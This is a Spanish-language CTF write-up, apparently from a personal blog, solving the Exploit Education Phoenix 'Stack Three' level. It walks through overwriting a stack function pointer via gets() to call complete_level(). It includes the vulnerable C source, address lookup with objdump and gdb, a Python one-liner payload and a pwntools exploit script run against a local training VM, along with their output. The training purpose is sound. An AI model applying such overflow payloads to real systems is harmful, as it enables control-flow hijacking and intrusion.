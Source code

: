 ```yaml
---
layout: single
title: "Stack Three"
permalink: /pwn/phoenix/stack-three/
parent: Phoenix
comments: true
excerpt: "Stack Three"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **sobrescritura de punteros de función** en la pila.  
El objetivo es modificar el puntero `fp` para que apunte a la función `complete_level()`.

**Consejos:**
- Se puede usar `gdb` y `objdump` para obtener la dirección de la función `complete_level()`.
- El overflow permitirá sobreescribir el puntero de función almacenado justo después del buffer.

## Análisis del código

El programa contiene:

Un buffer de 64 bytes (locals.buffer).

Un puntero a función (locals.fp), inicializado en NULL.

La vulnerabilidad está en el uso de gets(), que permite escribir más allá de los 64 bytes, sobreescribiendo el puntero fp.
Si logramos que fp apunte a complete_level(), se ejecutará y se completará el reto.


```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>    // Biblioteca para manejo de errores y salida
#include <stdio.h>  // Biblioteca estándar para entrada y salida (printf, fflush, etc.)
#include <stdlib.h> // Biblioteca para funciones generales, como exit() y malloc()
#include <string.h> // Biblioteca para manipulación de cadenas (gets, strcpy, etc.)
#include <unistd.h> // Biblioteca para funciones del sistema POSIX (sleep, fork, etc.)

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define una constante con el mensaje que se imprimirá al inicio del programa

char *gets(char *); 
// Declaración de la función 'gets', que permite leer una línea de texto desde la entrada estándar

void complete_level() { 
  // Función para completar el nivel
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  // Muestra un mensaje de felicitación si se completa el nivel
  exit(0); // Sale del programa
}

int main(int argc, char **argv) {
  // Función principal que toma argumentos desde la línea de comandos
  struct {
    char buffer[64];        // Reserva 64 bytes para almacenar la entrada del usuario
    volatile int (*fp)();   // Puntero a función que debe ser modificado por el exploit
  } locals; // Declara la estructura que contendrá el buffer y el puntero a la función

  printf("%s\n", BANNER);
  // Imprime el banner de bienvenida

  locals.fp = NULL;
  // Inicializa el puntero a función a NULL

  gets(locals.buffer);
  // Lee la entrada del usuario con gets() y la guarda en 'buffer' (sin verificar límites, lo que permite un desbordamiento de buffer)

  if (locals.fp) {
    // Si el puntero a la función no es NULL (es decir, ha sido modificado por el atacante)
    printf("calling function pointer @ %p\n", locals.fp);
    // Imprime la dirección de la función que se va a llamar
    fflush(stdout);
    // Fuerza a que los datos pendientes se escriban en la salida estándar
    locals.fp();
    // Llama a la función apuntada por 'fp'
  } else {
    // Si el puntero a la función sigue siendo NULL (no ha sido modificado)
    printf("function pointer remains unmodified :~( better luck next time!\n");
    // Imprime un mensaje indicando que el puntero no ha sido modificado
  }

  exit(0); 
  // Termina el programa correctamente
}
```

**Encontrando la dirección de complete_level()**

Podemos ubicar la dirección con objdump con el comando `objdump -d stack-three | grep complete_level`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
000000000040069d <complete_level>:
```

O también con la herramienta gdb con el comando `info func`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ gdb ./stack-three
GNU gdb (GDB) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./stack-three...(no debugging symbols found)...done.
gef➤  info func
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

**Explotación manual**

Si enviamos 64 caracteres seguidos de la dirección de complete_level(), como nos pide el reto, sobrescribiremos el puntero de función: En arquitecturas de 64 bits es mejor usar p64 para garantizar el formato correcto de la dirección.

```c
user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\x9d\x06\x40"' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ import time
   4   │ 
   5   │ # Conectar al proceso remoto
   6   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   7   │ 
   8   │ # Definir el payload
   9   │ payload = b"A" * 64
  10   │ payload += p64(0x40069d)  # Asegúrate de que la dirección esté bien
  11   │ 
  12   │ # Ejecutar el programa remoto
  13   │ process = ssh_connection.process('/opt/phoenix/amd64/stack-three')
  14   │ 
  15   │ # Enviar el payload
  16   │ process.sendline(payload)
  17   │ 
  18   │ # Esperar un poco para asegurar que todo se haya enviado
  19   │ time.sleep(1)
  20   │ 
  21   │ # captura la respuesta y la envía
  22   │ flag = process.recvall().decode()
  23   │ log.success("Output: " + flag)
  24   │ 
  25   │ # Cerrar el proceso
  26   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 906
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-three'!
[+] Receiving all data: Done (180B)
[*] Stopped remote process 'stack-three' on localhost (pid 906)
[+] Output: Welcome to phoenix/stack-three, brought to you by https://exploit.education
    calling function pointer @ 0x40069d
    Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Conclusión**

En este reto vimos cómo es posible manipular punteros de función mediante un buffer overflow, redirigiendo la ejecución del programa hacia una función específica.

Puntos clave:

  - Las funciones inseguras como gets() permiten escribir más allá de la memoria asignada.

  - Los punteros de función en la pila son objetivos directos para un atacante.

  - Controlar el flujo del programa a través de estos punteros es una técnica básica pero poderosa en explotación binaria.